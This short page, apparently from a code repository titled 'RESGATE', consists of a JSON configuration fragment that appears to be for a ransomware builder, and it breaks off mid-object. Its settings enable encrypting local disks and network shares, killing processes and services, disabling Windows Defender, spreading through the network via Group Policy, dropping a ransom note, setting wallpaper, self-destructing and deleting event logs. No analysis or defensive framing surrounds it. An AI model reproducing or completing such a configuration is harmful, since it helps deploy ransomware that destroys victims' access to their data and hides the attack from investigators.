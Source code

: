 # RESGATE

Acionando todos os autobots...


  "bot": {
    "uid": "00000000000000000000000000000000",
    "key": "00000000000000000000000000000000"
  },
"config": {
    "settings": {
      "encrypt_mode": "auto",
      "encrypt_filename": false,
      "impersonation": true,
      "skip_hidden_folders": false,
      "language_check": false,
      "local_disks": true,
      "network_shares": true,
      "kill_processes": true,
      "kill_services": true,
      "running_one": true,
      "print_note": true,
      "set_wallpaper": true,
      "set_icons": true,
      "send_report": false,
      "self_destruct": true,
      "kill_defender": true,
      "wipe_freespace": false,
      "psexec_netspread": false,
      "gpo_netspread": true,
      "gpo_ps_update": true,
      "shutdown_system": false,
      "delete_eventlogs": true,
      "delete_gpo_delay": 1
